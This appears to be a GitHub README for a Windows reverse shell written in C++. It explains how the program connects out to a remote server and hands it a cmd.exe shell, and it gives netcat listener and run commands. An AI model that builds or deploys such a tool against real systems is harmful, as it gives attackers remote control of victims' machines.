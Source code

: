 
# Reverse Shell in C++

This project implements a simple reverse shell in C++. It establishes a connection to a remote server, redirects standard input/output/error to a socket, and allows interaction with a shell on the target system. The code is designed for Windows environments and uses Winsock for network communication.

## Getting Started
-Simply download the PowerShell or cmd release and you're good to go

### Prerequisites
- A Windows environment.
- Visual Studio or a compatible C++ compiler.

### Building the Code
1. Clone the repository to your local machine.
2. Open the project in your C++ IDE.
3. Compile and build the project.

### Running the Code
1. Start a listener on the remote server using tools like `nc` (Netcat):
   ```bash
   nc -lvnp <port>
   ```
2. Run the compiled executable with the remote server's IP and port as arguments:
   ```bash
   ./reverse_shell <server_ip> <port>
   ```

## How It Works
The code performs the following steps:
1. Initializes Winsock.
2. Creates a TCP/IP socket.
3. Connects to the remote server with the given IP and port.
4. Redirects standard input/output/error to the socket.
5. Launches `cmd.exe` with redirection, allowing interaction via the reverse shell.
6. Cleans up resources after the shell completes.

## License
GPL
